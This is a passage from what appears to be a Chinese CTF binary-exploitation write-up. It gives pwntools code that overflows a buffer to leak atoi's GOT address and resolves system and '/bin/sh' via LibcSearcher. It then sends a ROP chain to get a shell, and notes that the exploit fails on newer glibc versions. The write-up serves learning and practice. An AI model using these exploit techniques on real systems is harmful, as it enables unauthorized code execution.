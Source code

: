 (3) 泄露函数真实地址：

```
#注释头
 
payload = 'a'*0x34 + p32(atoi_got) + p32(0x100) + p32(0x100)
#这里第一个p32(0x100)是覆盖getline的读取长度，也就是arg_4，第二个是为了覆盖循环次数，也就是arg_8
setMessage(payload)
sh.recvuntil('<')
atoi_addr = u32(sh.recv(4))
log.info("atoi_addr:%x"%atoi_addr)

```

获取 name 的长度：当然这改掉的是 name 的长度，message 的长度保存在 [ebp+var_30] 上，并且因为 - 1 已经被更改为 0xffffffff，足够大了。

![](https://bbs.pediy.com/upload/attach/202108/904686_TEQ2Y4HGEXQWPZF.jpg)

判断循环次数：

![](https://bbs.pediy.com/upload/attach/202108/904686_652B3VZVC5YCBWY.jpg)

(4) 计算得到 libc 中其它地址：

```
#注释头
 
libc = LibcSearcher('atoi',atoi_addr)
libc_base = atoi_addr - libc.dump('atoi')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

```

(5) 将写入 name 的地方覆盖成读取 read 函数返回地址的地方：

```
#注释头
 
payload = 'a'*0x34 + p32(target_addr)
setMessage(payload)

```

(6) 再次读取 name 的时候就可以发送 rop 链：

```
#注释头
 
rop = p32(system_addr) + p32(0) + p32(binsh_addr)
setName(rop)

```

(7) 最后 getshell:

▲这个 exp 在不同的 glibc 版本下不太一样，2.23/2.24/2.27 都能跑通，但是在 2.31/2.32 版本下没办法跑通，尤其是 2.31，连栈地址都没办法泄露。2.32 则是在最后一步会失败，不知道为什么。可能是 canary 的原因，不同版本的 canary 检查机制好像不一样。
